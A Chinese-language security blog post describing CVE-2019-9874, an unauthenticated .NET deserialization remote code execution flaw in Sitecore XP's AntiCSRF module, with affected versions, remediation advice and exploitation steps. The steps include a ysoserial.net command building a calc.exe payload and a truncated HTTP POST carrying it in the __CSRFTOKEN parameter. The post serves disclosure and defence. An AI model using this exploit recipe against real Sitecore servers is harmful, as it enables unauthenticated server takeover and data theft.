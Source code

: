 #  Sitecore几年前的洞CVE-2019-9874：反序列化实现的未经认证的 RCE（CVSS 9.8）   
 柠檬赏金猎人   2025-03-27 22:30  
  
### 概述  
  
Sitecore 的CSRF 模块中的两个严重漏洞再次成为活跃威胁，最近CISA将其加入已知被利用漏洞清单 (Known Exploited Vulnerabilities Catalog)。  
  
CVE-2019-9874 是一个影响 Sitecore CMS 和 Experience Platform (XP) 的漏洞，发布日期为 2019 年 5 月 31 日。该漏洞存在于 Sitecore.Security.AntiCSRF 模块中，因 .NET 对象反序列化处理不当而导致远程代码执行 (RCE)。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/OkRKg4J9smVjoVQOYkibQWnfVGHWmMib74viacUUg7GHBe16BniaLsjh1V2Hy7XWn0f92AniaoZ6GibP4brYHCbRIsfw/640?wx_fmt=jpeg "")  
  
其 CVSS v3 分数为 9.8（危急），表明这是一个极为严重的安全问题，与 CVE-2019-9875 的主要区别在于此漏洞无需认证即可利用。  
### 漏洞详情  
  
•影响版本：Sitecore Experience Platform (XP) 9.1 及更早版本。  
•漏洞类型：反序列化漏洞 (Deserialization Vulnerability)。  
•CVE ID：CVE-2019-9874。  
•攻击向量：网络 (Network)。  
•攻击复杂度：低 (Low)。  
•权限要求：无需认证 (None)。  
•影响：允许未经认证的攻击者在目标系统上执行任意代码。  
  
该漏洞源于 Sitecore.Security.AntiCSRF 模块未对通过 HTTP POST 参数 __CSRFTOKEN 传递的序列化数据进行充分验证或过滤。攻击者可构造恶意的 .NET 对象并嵌入其中，服务器反序列化时会触发代码执行。由于无需认证，攻击门槛极低。  
### 利用条件  
  
1.目标系统运行受影响的 Sitecore XP 版本。  
2.攻击者能够通过 HTTP POST 请求将恶意数据发送到服务器。  
3.无需用户凭据或会话认证。  
### 利用步骤  
  
1.构造恶意数据：  
•使用工具（如 ysoserial.net）生成恶意的 .NET 序列化对象。  
  
```
\ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c 
'calc.exe'
```  
  
  
2.发送请求：  
•将序列化数据嵌入 __CSRFTOKEN 参数。  
•通过 HTTP POST 发送到 Sitecore 实例的受影响端点。  
```
POST /sitecore/shell/Applications/Security/CreateNewUser/CreateNewUser.aspx HTTP/1.1
Host: victimhost
Cookie: __CSRFCOOKIE=test; 
Content-Type: application/x-www-form-urlencoded
Content-Length: 3156

__CSRFTOKEN=/wEysRIAAQAAAP////8BAAAAAAAAAAwCAAAASVN5c3RlbSwgVmVyc2lvbj00[…]
```  
  
3.触发执行：  
•服务器处理请求时，反序列化 __CSRFTOKEN 参数，执行嵌入的恶意代码。  
### 潜在影响  
  
•代码执行：攻击者可在服务器上运行任意命令，如部署后门、窃取数据或破坏系统。  
•系统完全控制：无需认证即可接管服务器。  
•数据泄露：访问 Sitecore 数据库中的敏感信息，如用户数据或业务记录。  
### 修复措施  
  
•升级版本：Sitecore 官方已发布补丁，建议升级至 9.1 Update-1 或更高版本。  
•临时缓解：  
•限制对 /sitecore/shell 路径的外部访问，使用防火墙仅允许可信 IP。  
•监控异常 POST 请求，特别是 __CSRFTOKEN 参数。  
•若无法立即升级，考虑禁用受影响模块（需评估业务影响）。  
### 注意事项  
  
•该漏洞无需认证，较 CVE-2019-9875（需认证）更危险，攻击面更广。  
•被列入 CISA 已知被利用漏洞清单 (Known Exploited Vulnerabilities Catalog)，表明已在野外被利用。  
•参考 Sitecore 官方知识库： https://support.sitecore.com/kb?id=kb_article_view&sysparm_article=KB0334035  
### 分析局限性  
  
•具体利用细节因目标配置而异，需结合实际环境测试。  
•完整的公开 PoC，但其高危性和无需认证特性使其易被攻击者利用。  
  
  
  
仅限交流学习使用，如您在使用本工具或代码的过程中存在任何非法行为，您需自行  
承担相应后果，我们将不承担任何法律及连带责任。  
“如侵权请私聊公众号删文”。  
  
  
  
  
